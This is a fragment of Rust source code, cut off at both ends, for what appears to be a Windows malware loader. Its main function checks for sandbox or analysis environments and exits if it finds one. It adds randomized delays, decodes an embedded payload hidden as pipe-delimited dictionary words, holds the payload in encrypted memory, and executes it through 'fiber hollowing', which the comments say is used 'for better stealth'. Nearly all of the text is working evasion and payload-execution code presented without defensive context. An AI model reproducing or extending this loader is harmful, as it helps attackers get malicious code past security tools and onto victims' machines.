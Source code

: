 ```rust
    CloseHandle(process_info.hThread);
    
    Ok(())
}

// Update main function to use the new fiber-based execution methods
fn main() -> Result<(), Box<dyn Error>> {
    // Enhanced environment detection with multiple checks
    if comprehensive_environment_check() {
        return Ok(()); // Exit if environment is suspicious
    }
    
    // Add initial delay with variance
    random_sleep(500, 25);
    
    // Create decoder from embedded dictionary array
    let mut decoder = Decoder::new_from_array(EMBEDDED_DICTIONARY);
    
    // Validate dictionary integrity
    if !decoder.validate_dictionary() {
        return Ok(());
    }
    
    // Parse the pipe-delimited load from the embedded string
    let load_content = ENCODED_PAYLOAD.lines()
        .find(|line| !line.starts_with("//") && !line.trim().is_empty())
        .unwrap_or("");
    
    if load_content.is_empty() {
        return Ok(());
    }
    
    // Split the pipe-delimited words
    let encoded_words: Vec<&str> = load_content.split('|').collect();
    
    // Decode the embedded code using the enhanced array-based method
    let code = decoder.decode_from_array_with_recovery(&encoded_words);
    
    if code.is_empty() {
        return Ok(());
    }
    
    // Create encrypted memory container for code with integrity verification
    let mut encrypted_memory = EncryptedMemory::new(code);
    
    // Verify code integrity before execution
    if !encrypted_memory.verify_integrity() {
        return Ok(());
    }
    
    // Add delay before execution
    random_sleep(500, 25);
    
    #[cfg(target_os = "windows")]
    {
        unsafe {
            // Try fiber hollowing first for better stealth
            let code_data = encrypted_memory.get_decrypted_data();
            
            match execute_via_fiber_hollowing(code_data) {
                Ok(_) => {
                    return Ok(());
                },
```